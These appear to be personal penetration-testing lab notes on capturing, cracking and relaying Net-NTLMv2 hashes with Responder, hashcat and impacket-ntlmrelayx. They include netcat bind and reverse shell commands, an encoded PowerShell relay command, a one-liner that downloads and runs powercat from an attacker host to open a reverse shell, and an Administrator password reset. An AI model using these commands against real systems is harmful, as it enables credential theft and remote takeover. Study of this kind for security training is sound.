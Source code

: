 		1. nc 192.168.50.211 4444
			- bind shell
		2. whoami
		3. net user paul
			- part of the RDP group but not Admin
		4. ip a
			- retrieve a list of all interfaces
		5. sudo responder -I tap0 
			1. -I = listening interface 
		6. dir **\\192.168.119.2\test**
			- request access to a non-existent SMB share on our Responder SMB server using pauls bind shell
		7. cat paul.hash
		8. hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
			- crack the hash
		9.

### Relaying Net-NTLMv2
- If not a local Admin user, UAC must be disabled

- impacket-ntlmrelayx
	- impacket library
	- sets up an SMB server and relays the authentification part
	- Example:
		- impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG5...."
			- --no-http-server = disable HTTP server since we're relaying SMB connection
			- -t = target
			- -c = command to execute
			- -enc = base64 encoded
			- [-i] = [interactive mode]
		- nc -lvnp 8080
			- catch reverse shell on SYS2
		- nc 192.168.50.211 5555
			- connect to bind shell on SYS1
		- dir \\192.168.119.2\test
			- create SMB connection to Kali machine
		- powershell reverse shell one liner
			- powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.145.245:8000/powercat.ps1');
powercat -c 192.168.45.245 -p 4444 -e powershell"

- or 
	- -c "net user Administrator Password123#"
